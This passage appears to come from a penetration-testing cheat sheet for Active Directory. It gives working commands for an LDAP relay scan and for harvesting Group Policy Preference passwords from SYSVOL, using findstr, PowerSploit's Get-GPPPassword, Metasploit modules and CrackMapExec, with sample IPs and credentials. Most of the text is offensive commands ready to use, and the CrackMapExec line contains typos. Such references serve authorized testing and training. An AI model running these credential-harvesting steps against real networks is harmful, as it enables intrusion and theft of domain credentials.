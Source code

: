 ```
python3 LdapRelayScan.py -dc-ip 192.168.0.10 -u jdoe -p Password123
```

### Unencrypted Protocols in use

#### SMTP
Port 25

#### HTTP
Port 80

#### Telnet
Port 23

#### FTP
Port 21

##### LDAP
LDAPS uses its own distinct network port to connect clients and servers. The default port for LDAP is port 389, but LDAPS uses port 636 and establishes TLS/SSL upon connecting with a client.

### SYSVOL / GPP
- https://adsecurity.org/?p=2288

*From Windows client perspective*
```
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

The PowerSploit function Get-GPPPassword is most useful for Group Policy Preference exploitation.  
- [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

*From Linux client*  

##### Metasploit Module
```
use auxiliary/scanner/smb/smb_enum_gpp
msf auxiliary(smb_enum_gpp) > set rhosts 192.168.1.103
msf auxiliary(smb_enum_gpp) > set smbuser raj
msf auxiliary(smb_enum_gpp) > set smbpass Ignite@123
msf auxiliary(smb_enum_gpp) > exploit
```

##### Metasploit Post-Module : Once you get shell on windows host
```
use post/windows/gather/credentials/gpp
msf post(windows/gather/credentials/gpp) > set session 1
msf post(windows/gather/credentials/gpp) > exploit
```

##### CrackMapExec Module 1 : gpp_password
Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
Groups.xml, Services.xml, Scheduledtasks.xml, DataSources.xml, Printers.xml, Drives.xml
```
crackmapexec smb 192.168.0.10 -u jdoe -p Password 123 -M gpp_pasword
```
